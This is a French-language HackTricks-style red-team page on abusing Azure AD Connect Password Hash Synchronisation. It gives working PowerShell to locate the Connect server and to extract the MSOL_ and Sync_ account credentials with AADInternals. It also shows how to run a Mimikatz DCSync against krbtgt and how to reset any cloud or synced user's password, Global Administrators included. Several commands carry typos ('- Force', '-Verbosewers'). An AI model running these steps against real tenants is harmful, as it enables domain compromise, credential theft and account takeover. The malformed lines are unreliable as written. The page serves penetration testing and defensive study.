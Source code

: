 # Az - PHS - Synchronisation des Hachages de Mot de Passe

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Informations de Base

[Selon la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La synchronisation des hachages de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hachage, du hachage, du mot de passe d'un utilisateur d'une instance Active Directory sur site vers une instance Azure AD basée sur le cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD sur site avec Azure AD.

Tous les **utilisateurs** et un **hachage des hachages de mot de passe** sont synchronisés de l'on-prem vers Azure AD. Cependant, les **mots de passe en clair** ou les **hachages** **originaux** ne sont pas envoyés à Azure AD.\
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** avec Azure AD.

La **synchronisation des hachages** se produit toutes les **2 minutes**. Cependant, par défaut, l'**expiration des mots de passe** et l'**expiration des comptes** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe sur site est expiré** (non changé) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur sur site souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **Identity Protection** et les services de domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains **comptes privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD sur site. Ce compte se voit attribuer un rôle de **Comptes de Synchronisation de Répertoire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD sur site**.
* Un compte **`Sync_<nom du serveur ADConnect sur site>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de n'importe quel utilisateur** (synchronisé ou uniquement cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé.** Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.\
La base de données est située dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration d'une des tables, étant l'une chiffrée :

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configuration chiffrée** est chiffrée avec **DPAPI** et contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD sur site et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, en compromettant ceux-ci, il est possible de privesc vers l'AD et vers AzureAD.

Vous pouvez trouver un [aperçu complet de la façon dont ces identifiants sont stockés et déchiffrés dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trouver le **serveur Azure AD connect**

Si le **serveur où Azure AD connect est installé** est joint au domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abus de MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces identifiants.
{% endhint %}

### Abus de Sync\_\*

En compromettant le **`Sync_*`** compte, il est possible de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les Administrateurs Globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement cloud** (même si cela est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible d'extraire le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait de **attribuer des autorisations privilégiées à un principal de service**, ce que l'utilisateur **Sync** a **la permission** de faire, puis **d'accéder à ce principal de service** comme moyen de privesc.
{% endhint %}

### SSO Transparent

Il est possible d'utiliser le SSO Transparent avec PHS, qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
